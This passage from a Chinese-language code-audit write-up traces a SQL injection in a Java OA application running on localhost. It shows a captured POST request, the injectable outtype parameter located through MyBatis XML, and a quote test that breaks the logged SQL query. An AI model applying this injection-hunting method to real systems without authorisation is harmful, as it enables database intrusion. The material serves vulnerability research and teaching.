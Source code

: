 @RequestParam用来处理Content-Type: 为 application/x-www-form-urlencoded编码的内容，提交方式GET、POST。因此在构造数据包时要加入Content-Type:application/x-www-form-urlencoded才能使后端代码获取到对应参数值。

（前端请求传Json对象则后端使用@RequestParam；

前端请求传Json对象的字符串则后端使用@RequestBody。json的Content-Type:application/json或Content-Type:text/json），当然post类型的数据包可以抓取post请求，然后替换掉url和参数值

```php
POST /outaddresspaging HTTP/1.1
Host: localhost:8088
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64;x64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,\*/\*;q=0.8
Accept-Language:
zh-CN,zh;q=0.8,zh-TW;q=0.7,zhHK;q=0.5,enUS;q=0.3,en;q=0.2
Connection: close
Content-Type:application/x-www-form-urlencoded
Referer: http://localhost:8088/testsysstatus
Cookie: JSESSIONID=55DD494815FDC35487ED3DB2CA209D6D
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Content-Length: 45

pageNum=1&baseKey=&outtype=&alph=&userId=
```

发送数据包后，代码断点拦截，说明数据包没有问题，下面就是判断注入点  
根据xml注入参

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-2046db2a03ff3e8f22ccf2326d393c8214ea5abc.png)  
根据xml注入参数，以下标红参数为存在注入参数

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-6d373b6e0d80c4f960d1d8cdcffff6a665379a30.png)  
尝试outtype参数1'

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-8877c49823f06ba89ec0eb4cbdc6e2895b03eeda.png)  
通过断点，可以按到控制台输出的sql语句，outtype已经写入到了sql语句中

```php
SQL: select count(0) from (SELECT d.\*,u.\*   FROM
aoa\_director\_users AS u LEFT JOIN aoa\_director AS d
ON   d.director\_id = u.director\_id   WHERE
u.user\_id\=? AND u.director\_id is NOT null AND
u.is\_handle\=1        AND d.pinyin LIKE '1%'        
    AND u.catelog\_name = '1''           AND  
(d.user\_name LIKE '%2%'   OR d.phone\_number LIKE
'%2%'   OR d.companyname LIKE '%2%'   OR d.pinyin
LIKE '2%'   OR u.catelog\_name LIKE '%2%'   )      
order by u.catelog\_name) tmp\_count
```
